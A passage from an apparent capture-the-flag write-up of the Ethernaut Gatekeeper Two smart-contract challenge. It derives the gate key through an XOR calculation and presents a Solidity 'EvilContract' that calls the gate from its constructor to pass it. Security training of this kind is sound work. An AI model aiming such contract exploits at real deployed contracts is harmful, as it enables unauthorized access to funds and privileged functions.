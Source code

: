 Let's evalulate the *right* side of the equality. Remember the *Token* Challenge ? yes but now this dangerous manipulation of unsigned integer in intended and it gives us the value `0xFFFFFFFF`.
For the *left* side of the equality we got an **XOR** operation. **XOR** verifies if the bits in the same position or not if they are it results in 1 otherwise in 0. Let's ignore the conversion it won't change anything actually because we can reverse it to get the _gateKey later.

So the equation we have : 

**A** =  `uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))`
**B** = `uint64(_gateKey)`
**C** = `uint64(0) - 1`

Here is what we need to do ! Read carefully this wikipedia page if you need to understand how it works on bit level. [Wikipidea XOR Article](https://en.wikipedia.org/wiki/XOR_cipher)
![XOR Wikipedia Screenshot](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138010/01a9f0d0791a8896c4b6109abc576acbfbccade8b44817fa1abd2f245eb99700_lii5bn.png)  

`A ^ B = C , B = ? ==> B = A ^ C`
Which translates to
`gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(0) - 1);`

-----
**Exploitation**

Let's craft our *EvilContract*

```js
contract EvilContract { 

    function getOperationResult() public pure returns (uint64){
        uint64 x =0; 
        return x - 1;
    }

   function getGateKey() public view returns (bytes8){ 
       uint64 x = getOperationResult();
     return   bytes8(x ^ uint64(bytes8(keccak256(abi.encodePacked(address(this))))));
   }

   
   constructor(address gateAddress) public {
       GateTwo gateTwoContract= GateTwo(gateAddress);
       bytes8  gateKey =getGateKey();
      bool state= gateTwoContract.enter(gateKey);
     require(state);
   }
   
}
```

We pass our instance address to the constructor.

Challenge solved ✅

> I was late, I couldn't join theCyber club 🥲

## Naught Coin
